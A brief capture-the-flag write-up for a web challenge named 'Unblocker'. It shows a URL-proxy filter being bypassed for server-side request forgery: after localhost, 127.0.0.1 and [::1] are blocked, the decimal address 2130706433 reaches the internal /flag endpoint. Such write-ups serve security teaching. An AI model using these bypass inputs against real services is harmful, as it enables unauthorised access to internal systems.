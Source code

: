 # Unblocker

> Web - Easy

**Description**: Need to access a blocked website? Use our unblocker to access it!

![image](./images/unblocker0.png)

Clicking on **Access Restricted Content** takes us to `http://unblck3r.eng.run/flag` endpoint, which is Forbidden \
Passing the same in unblocker gives `Error: Received status code 403`

Further inspection tells that on clicking on "Unblock", a GET request is made at `/proxy?url=<input_url>` by the iframe

![image](./images/unblocker1.png)

![image](./images/unblocker2.png)

Trying different enumerations of *localhost*:

- `http://localhost/flag` -> Blocked unsafe URL
- `http://127.0.0.1/flag` -> Blocked unsafe URL
- `http://[::1]/flag` -> Blocked unsafe URL
- `http://2130706433/flag` -> flag{cd3d0356d34630b7b97f972b23a5ee38}
